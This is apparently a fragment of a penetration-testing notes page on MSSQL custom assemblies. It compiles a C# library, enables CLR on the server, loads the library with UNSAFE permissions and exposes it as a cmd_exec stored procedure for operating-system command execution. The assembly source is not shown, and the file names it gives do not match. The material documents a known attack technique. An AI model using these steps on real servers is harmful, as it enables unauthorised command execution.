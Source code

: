 ### MSSQL Custom Assemblies

We can compile the `CreateAssembly.cs` file with csc.exe:
- `csc.exe /target:library cmd_exec.cs`

Next, run these SQL Statements to load and run the custom assembly:

```
-- Select the msdb database
use msdb
-- Enable show advanced options on the server
sp_configure 'show advanced options',1
RECONFIGURE
GO
-- Enable clr on the server
sp_configure 'clr enabled',1
RECONFIGURE
GO
-- Import the assembly
CREATE ASSEMBLY my_assembly
FROM 'c:\temp\cmd_exec.dll'
WITH PERMISSION_SET = UNSAFE;
-- Link the assembly to a stored procedure
CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_assembly].[StoredProcedures].[cmd_exec];
GO
```
